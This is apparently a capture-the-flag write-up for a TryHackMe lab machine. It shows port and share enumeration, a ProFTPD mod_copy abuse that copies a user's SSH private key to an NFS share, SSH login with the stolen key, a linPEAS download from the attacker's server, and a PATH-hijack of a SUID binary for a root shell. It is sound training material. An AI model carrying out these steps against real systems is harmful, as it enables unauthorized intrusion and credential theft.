

| Difficulty |
| ---------- |
|   Easy     |

---

### [ Make sure you're connected to our network and deploy the machine ]

Done!

---

### [ Scan the machine with nmap, how many ports are open? ]


I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website. This shows that port 80 is open on our target machine.


To enumerate information about the web server, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80.

Next, let's run an **nmap** scan on the server. we can run two nmap scans at one go, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```

While the thorough nmap is running in the background,  we can analyze the results of the quick nmap scan, which tells us that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** are open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case.

While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Port 445** was specified as it is the port that hosted samba. The results are as follows:


As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the **anonymous** share, and it allowed me to do so without requiring any authentication. This is a common misconfiguration on Samba machines, where anonymous login is allowed.

Using the command ```ls``` revealed that there was a **log.txt** file:


The **log.txt** file was just a basic **ProFTPD** configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

Now let's make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

In our case, port 111 gives us access to a **network file system (NFS)**. We can then use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```


From the results, we can see that **/var** is mountable! Let's take note of this finding and try visiting the **FTP server** next.

To do so, we can use **netcat** to connect to the machine on its ftp port.

```
nc 10.10.243.180 21
```

With that, we are successfully connected to the FTP server.

We can then use a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. The command is:

```
searchsploit proftpd 1.3.5
```


Searchsploit gave us 3 possible exploits that could be used.

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, we know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can mount our local computer to the machine and use that to obtain the **id_rsa** file. This will then allow us to access the machine via **ssh** as the user **kenobi**.

To do this, first, we first usedthe **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 


Next, we create a directory in our local computer's **/mnt** directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory onto our local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, we can just navigate to the **/tmp** folder and obtain the **id_rsa** file.



After copying the id_rsa file over to our local machine, we need to make sure that we change its permissions to be **read and write by owner** only. We can do this with ```chmod``` .

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine with the RSA key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

**We are then able to obtain the user flag from the home directory of kenobi.** 

---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command to find any out-of-the-ordinary files. :

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up.

On our local computer, we can host a simple HTTP server using Python's in-built server. To do so, I first ```cd``` into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

On the victim's machine, I used

```
wget http://<YOUR IP_HERE>/linpeas.sh
```

After successfully downloading the linpeas script, I just had to make it an executable file before I could run it. 

After running linpeas, I noticed that there was an interesting file that had its **SUID** bit set => **/usr/bin/menu**:


Upon running the menu binary, we come across some interesting options:


It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set) .

Using the command ```strings```, we can look for human-readable strings on the menu binary.

**Results:**


From the results, we find out that the commands run in the menu binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

To do so, we first copy the **/bin/sh** shell into a new file called **curl**, Give it the proper permissions (**777**), then put its location into our **PATH**. When the /usr/bin/menu binary is run, it will use our path variable to find the **curl** binary. Thus, it will run the curl binary that we created earlier on, which is actually a copy of **/usr/sh**. 

This will cause a shell to be opened as root, effectively allowing us to escalate our privileges.


*(Example given in TryHackMe)*

Hence, when we run the menu binary and run option 1, which uses the curl binary that we created earlier on, we will be able to gain access to a root shell as root.


**With that, we are able to obtain the root flag from the home directory of the root user, and the room is completed.**


